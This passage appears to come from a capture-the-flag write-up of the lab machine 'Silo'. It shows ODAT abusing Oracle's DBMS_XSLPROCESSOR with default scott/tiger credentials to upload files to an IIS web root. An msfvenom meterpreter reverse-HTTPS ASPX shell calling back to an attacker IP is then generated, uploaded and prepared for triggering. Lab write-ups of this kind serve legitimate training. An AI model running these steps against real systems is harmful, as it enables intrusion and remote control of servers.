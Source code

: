 [-] KO
[2.18] Obtain the session key and salt for arbitrary Oracle users (CVE-2012-3137)?
[-] KO
{% endhighlight %}

**DBMS_XSLPROCESSOR library** is enabled and therefore allows us to put any files onto the machine.  
First, we’ll create a simple text file and check if we can successfully upload it to **wwwroot**.  

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]
╰─[:)] # echo "Hacked By Gerh" > File-Test.txt

╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4439]
╰─[:)] # python odat.py dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "File-Test.txt" "/tmp/File-Test.txt"

[1] (10.10.10.82:1521): Put the /root/Desktop/File-Test.txt local file in the C:\inetpub\wwwroot\ folder like File-Test.txt on the 10.10.10.82 server
[+] The /root/Desktop/File-Test.txt file was created on the C:\inetpub\wwwroot\ directory on the 10.10.10.82 server like the File-Test.txt file
{% endhighlight %}

As you can see, we can successfully upload the file. Let’s check using **curl**.  

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]
╰─[:)] # curl http://10.10.10.82/File-Test.txt
Hacked By Gerh
{% endhighlight %}

Now that we can upload on the target system, we can easily generate an ASPX reverse shell using msfvenom, upload it using ODAT, and trigger it to get shell access.  

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]
╰─[:)] # msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.15.110 LPORT=443 -f aspx > /tmp/shell.aspx
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 500 bytes
Final size of aspx file: 3606 bytes

╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]
╰─[:)] # python odat.py dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "c:\\inetpub\\wwwroot" "shell.aspx" "/tmp/shell.aspx"
[1] (10.10.10.82:1521): Put the /tmp/shell.aspx local file in the C:\inetpub\wwwroot\ folder like shell.aspx on the 10.10.10.82 server
[+] The /root/Desktop/shell.aspx file was created on the C:\inetpub\wwwroot\ directory on the 10.10.10.82 server like the shell.aspx file
{% endhighlight %}

After uploading our shell, we will start the Metasploit framework and configure it to listen on the previously indicated ports.  
It should be noted that after starting the exploit we must make a request to the http://10.10.10.82/shell.aspx
